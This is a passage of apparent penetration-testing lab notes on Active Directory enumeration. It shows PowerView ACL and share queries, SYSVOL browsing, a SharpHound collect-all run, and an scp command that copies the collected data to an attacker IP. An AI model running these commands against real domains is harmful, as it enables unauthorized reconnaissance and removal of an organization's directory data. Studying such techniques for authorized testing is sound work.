 3. Filtering Output:
In powershell, the "?" is an if statement like python.
```PowerShell
Get-ObjectAcl -Identiy "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | Select ActiveDirectoryRights, SecurityIdentifier
```

---

### Enumerating Domain Shares
1. Shares can be enumerated using PowerView's `Find-DomainShare` cmdlet.
```PowerShell
. .\PowerView.ps1
Find-DomainShare # huge output
Find-DomainShare -CheckShareAccess # filter to show accessible by us.
```

The "SYSVOL" share usually contains configs & scripts that usually belong to the DomainController in the AD. By default, this share is mapped to `%SystemRoot%\SYSVOL\Sysvol\domain-name`.

From the attack machine, we need smbclient to enumerate. However, with RDP, we can use the following commandsL

2. Listing the shares
```PowerShell

ls \\dc1.corp.com\sysvol\corp.com
# output
    Directory: \\dc1.corp.com\sysvol\corp.com

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:11 AM                Policies
d-----          9/2/2022   4:08 PM                scripts

# list the contents of a directory
ls \\dc1.corp.com\sysvol\corp.com\Policies
# continue further enumeration similarly. use cat & the path to see a file.
```

---

### Bloodhound | Sharphound - Automated AD Enumeration

1. Getting Started
Transfer the `Sharphound.ps1` file to the victim & then import it.
```PowerShell
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\hutgrabber\Desktop\ -OutputPrefix "hutgrabber"

```

2. Start Neo4j On Local System
```bash
sudo neo4j start
```

3. SCP the generated ZIP File
```bash
scp -r .\bloodhound.zip hutgrabber@192.168.45.222:/home/hutgrabber/
# remove -r if you don’t want to recurse
```

---

# Active Directory - Exploitation

### 